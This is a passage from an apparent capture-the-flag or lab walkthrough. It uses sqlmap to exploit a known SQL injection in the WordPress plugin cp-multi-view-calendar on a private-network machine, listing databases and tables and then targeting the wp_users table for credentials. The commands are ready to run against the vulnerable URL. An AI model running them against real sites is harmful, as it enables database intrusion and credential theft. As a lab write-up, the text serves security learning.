 Let's find exploits for this plugins.
Following this [exploit][1] for cp-multi-view-calendar we perform a SqlI on the remote machine using **'sqlmap'**

    root@kali ~/D/M/G/e/cp-multi-view-calendar# sqlmap -u 'http://10.0.0.26/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1' -dbs -batch -dump

    ...
    available databases [2]:
    [*] information_schema
    [*] wordpress_db
    ...

    root@kali ~/D/M/G/e/cp-multi-view-calendar# sqlmap -u 'http://10.0.0.26/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1' -batch -dump -D wordpress_db -tables

    [16 tables]
    +------------------------+
    | wp_commentmeta         |
    | wp_comments            |
    | wp_dc_mv_calendars     |
    | wp_dc_mv_configuration |
    | wp_dc_mv_events        |
    | wp_dc_mv_views         |
    | wp_links               |
    | wp_options             |
    | wp_postmeta            |
    | wp_posts               |
    | wp_term_relationships  |
    | wp_term_taxonomy       |
    | wp_termmeta            |
    | wp_terms               |
    | wp_usermeta            |
    | wp_users               |
    +------------------------+

We already that the user **'webmaster'** is on the remote machine, let's see if we can find more users or the password for the user.

    root@kali ~/D/M/G/e/cp-multi-view-calendar# sqlmap -u 'http://10.0.0.26/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1' --technique T -batch -dump -D wordpress_db -T wp_users --columns


[1]: "https://www.exploit-db.com/exploits/37560"